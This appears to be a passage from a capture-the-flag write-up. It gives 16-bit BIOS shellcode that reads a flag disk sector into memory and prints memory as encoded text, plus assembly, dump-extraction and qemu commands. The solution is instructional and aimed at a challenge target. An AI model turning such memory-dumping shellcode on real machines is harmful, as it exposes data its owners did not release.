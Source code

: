 ```
# Load flag into memory using "read sector" BIOS interrupt.
    mov si, 0    # point source to 0000:0000
    mov ax, 0x202
    mov bx, 0x9000
    #mov dx, 0x80 # 0x80: Bootloader disk
    mov dx, 0x82 # 0x82: Flag disk
    mov cx, 0x1
    int 0x13

# Loop forever over memory and print it out.
loop:
    lodsb        # load byte and increment
    mov ch, al
    mov cl, al

    # setup print
    mov ah, 0x0e
    mov bx, 0x0007

    # calc base16 encoding
    shr ch, 4    # upper 4 bits
    add ch, 0x41
    mov al, ch
    int 0x10

    and cl, 0x0f # lower 4 bits
    add cl, 0x41
    mov al, cl
    int 0x10

    jmp loop
```

To assemble, use [Keystone](https://www.keystone-engine.org/).

```shell
kstool -b x16 "$(cat ./shellcode.s)" 7e02 | xxd -i -c8
```

Go was used to automate the upload of input and download/decoding of the memory dump.

```shell
python3 -c 'print(0x9000)'
36864

dd bs=1 if=dump_with_test_flag.bin skip=36864 status=none | strings | head -n1
...FLAG...

dd bs=1 count=512 if=dump_with_test_bootloader.bin skip=36864 of=test_bootloader.bin
```

The test environment can now be run locally.

```shell
qemu-system-i386 \
  -display curses -monitor -nographic \
  -drive format=raw,file=./test_booloader.bin \
  -drive format=raw,file=./basic-test.bin
```

